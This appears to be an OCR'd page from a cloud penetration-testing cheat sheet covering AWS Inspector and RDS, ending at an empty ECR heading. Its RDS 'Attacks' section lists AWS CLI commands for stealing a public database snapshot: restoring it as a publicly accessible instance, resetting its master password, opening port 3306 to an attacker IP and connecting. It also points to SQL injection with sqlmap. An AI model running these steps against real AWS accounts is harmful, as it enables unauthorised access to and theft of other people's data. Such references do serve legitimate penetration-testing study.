 ## **AWS Inspector**

```text
# Amazon Inspector is an automated security assessment service that helps improve the security and compliance of applications deployed on AWS.
```

## **AWS RDS**

### **Basic**

```text
aws rds describe-db-instances
```

### **Attacks**

```text
# Just like a MySQL, try for sqli!
# Check if 3306 is exposed
# Sqlmap is your friend ;)

# Stealing RDS Snapshots
- Searching partial snapshots
aws rds describe-db-snapshots --include-public --snapshot-type public --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup
- Restore in instance
aws rds restore-db-instance-from-db-snapshot --db-instance-identifier recoverdb --publicly-accessible --db-snapshot-identifier arn:aws:rds:us-east-1:159236164734:snapshot:globalbutterdbbackup --availability-zone us-east-1b
- Once restored, try to access
aws rds describe-db-instances --db-instance-identifier recoverdb
- Reset the master credentials
aws rds modify-db-instance --db-instance-identifier recoverdb --master-user-password NewPassword1 --apply-immediately
    - Takes some time, you can check the status:
    aws rds describe-db-instances
- Try to access it from EC2 instance which was restored
nc rds-endpoint 3306 -zvv    
- If you can't see, you may open 3306:
    - In RDS console, click on the recoverdb instance
    - Click on the Security Group
    - Add an Inbound rule for port 3306 TCP for Cloudhacker IP
 - Then connect it
 mysql -u <username> -p -h <rds-instance-endpoint>

```

## ECR

### Info

